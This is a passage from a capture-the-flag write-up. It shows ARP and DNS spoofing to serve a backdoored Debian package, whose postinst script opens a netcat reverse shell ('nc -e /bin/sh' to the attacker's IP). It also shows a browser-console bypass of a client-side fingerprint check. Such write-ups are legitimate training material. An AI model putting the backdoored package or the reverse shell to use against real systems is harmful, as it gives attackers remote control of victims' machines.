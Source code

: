 Running both of these scripts and again looking at the traffic we now see an HTTP request incoming to our host requesting a Debian package. We can create our own package containing nothing but a manifest "control" file and a post install "postint" script. The postinst script will be run after the (empty) package has been installed and will give us a reverse shell on the victim host. The two files look like this.

```bash
guest@116b9ef8657a:~$ cat backdoor/DEBIAN/postinst 
#!/bin/sh
nc -e /bin/sh 10.6.0.4 4000
```

```bash
guest@116b9ef8657a:~$ cat backdoor/DEBIAN/control 
Package: suriv
Version: 1.0-1
Section: base
Priority: optional
Architecture: all
Maintainer: Your Name <you@email.com>
Description: Hello World
```

Putting all of this together, we use the first script to ARP spoof the victim tricking it into thinking we are the DNS server. Then we use the second script to reply to the DNS lookup, again replying with our address. Finally, we set up a web server and serve the malicious Debian package on the path requested and once the victim installs the package it will connect a remote shell to our computer. We then use this to fetch the meeting protocol from the server to find out who recused herself from the vote.

Answer: Tanta Kringle

### Objective 10: Defeat Fingerprint Sensor

The elevator code can be inspected. Specifically, looking at "app.js" we can find the handler for the santa office button and the "hasToken" function.

```javascript
const hasToken = name => tokens.indexOf(name) !== -1;
...
const handleBtn4 = () => {
  const cover = document.querySelector('.print-cover');
  cover.classList.add('open');

  cover.addEventListener('click', () => {
    if (btn4.classList.contains('powered') && hasToken('besanta')) {
      ...
    }
  });
};
```

This means that by adding the string "besanta" to the "tokens" array, we can bypass the fingerprint sensor. Luckily, the tokens array is in the global scope and is easily accessible so we can simply run this line of code in the browser console and then click the elevator button.

